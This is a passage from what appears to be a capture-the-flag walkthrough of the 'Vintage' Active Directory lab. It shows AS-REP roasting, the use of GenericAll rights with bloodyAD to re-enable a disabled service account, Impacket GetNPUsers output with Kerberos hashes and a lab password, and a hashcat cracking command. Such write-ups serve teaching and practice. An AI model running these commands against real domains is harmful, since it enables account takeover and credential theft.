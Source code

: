 ```console
$krb5asrep$23$svc_ark@VINTAGE.HTB:9bcb4e2a1c6d1d742b1216a337217c76$401ee49a4ba4684ffe2a44fa2f3bf1c2a990be777ca62b84e3bb24d7a682480dcf8b58163c3d7d1a49b9c17851e858f5a3a5b668f3f338702bdd214b4ef42c383f487b3d53ac84e7921af216919ac1272aa1a6aa2a29521a9909dc77c863cb12c3b4795bc681b498fd503ff05311240323229aaee57fb290577d1fa16eb1f20b98a7532ceabe33ae8e305a12ba4c26a9dee9398a99615bb4fef58295b05167ee4233220a828a051796b65514643e66cf962792a5de6c960af20f604a036d8e8babc40db0ff91f60d530efe17b2ba5b19ada9f0db426fef63e28c2684bb949cb1d6ed98c572c7b1b80569
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```

We only get two hashes and see that the `svc_sql` account responds with a `KDC_ERR_CLIENT_REVOKED` error, meaning that this account is not activated. We can verify if the account is indeed disabled.

```console
$ bloodyAD -k ccache=GMSA01$.ccache --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 get search --filter "(objectClass=user)" --attr userAccountControl | grep svc_sql -A 1

distinguishedName: CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
userAccountControl: ACCOUNTDISABLE; NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD; DONT_REQ_PREAUTH
```

With our `GenericAll` rights, we can enable the account in order to get the hash.

```console
$ bloodyAD -k ccache=GMSA01$.ccache --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 remove uac svc_sql -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from svc_sql's userAccountControl

$ GetNPUsers.py vintage.htb/p.rosa -usersfile svc_accounts.txt -request -outputfile services.hashes
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Password: Rosaisbest123
$krb5asrep$23$svc_sql@VINTAGE.HTB:dc8a1a43c87f7cc2ecbb5257297c5e94$3cc8690b1ed9d58499e1ea15cd221df403ca8e996958bf07dde2c4b908b49e88ccccff7499e425fc18adb571ac27ade37e7689b24c17098b0fad4c1f06d58cc716a163d8c6fd5239b5d038664b3678c15e0618f764773d7a015175276189704ffa0705f7d9e2f1fcb9e9bdc4a150fcb177fab3362fcd056d5bd1f4dfd746c9d5f86edaa80b9d00e5642c1503ee75d0f92675416005c65804cec1d5019eacaf3f729f64b65fe78a24bce11ce15a29ff1d59c266893f9579d72f56de8db8c161696ea4a6b752e2c78ed019a683c3a5bacaa4188a35a122c74d1d953b61fbf89c82b51f020b16c5b58f1075
$krb5asrep$23$svc_ldap@VINTAGE.HTB:e6c79b7a07a29f9ac1b01304a6284b5c$909ef9d4c18e333496894114a6352be17a069b22150553135ad947f8a53e62b4d8d821e1445c2732d6d7cba63f3b5b7ea41af01fc2ec90e6629aa495ac928e10b728e6ed38aab07c619a4ba0138ee51b1bfbf81ebaa5c9714666a15cccb2d9395875e17aa5dc0e989d35e4bbe7aa715eb322bc0f547a8fddfe8fa67f3f1e067b8c0d7b7f61bc5d61c3d9c394f4f56becaf11c45e8e055a4f7faca72951e53b5bb3fd64cb59e7ad7bad8b2381a45c7d6c6202c6990ac6dcd751698ee0537eeb433828980c2c7ed8323e2354992f311d0cedecb6810c10024b6d28190c64ee29b1676c3cd10f2dc4f98af6
$krb5asrep$23$svc_ark@VINTAGE.HTB:b49fd1927a448d0d5e4f881ddce0bff4$c4d6bc491d09cb254a9f77c8e2f5ddc3a3b026e7de873b673b33e74c1cc7c7abbb39003f42c19cd3aa3b89a4184c696c3efc4386a37c832a59005da2eab5fcccef22de555e6407f1389b576503757debacad0bebfeac149ee90628e05a8ce410bac307565474156df4ca521e7d0d29a8e5d4f1e0cf4ade79a36597ecffab8c586b4a9e4a10831d595bcd61fb5068efe832ce5b836bd46ba56f495ea5150e73aa117212ab218de0c2f17083b02c48d627d67ad8a1e537eeba72dcf7f984fe762f86d7ca702f6d22e3caf27cfdab1f7498c28e3664311f482129eb6bf2a14a8c94ba185eeb5529b178dadf

$ hashcat services.hashes -m 18200 $ROCKYOU
```
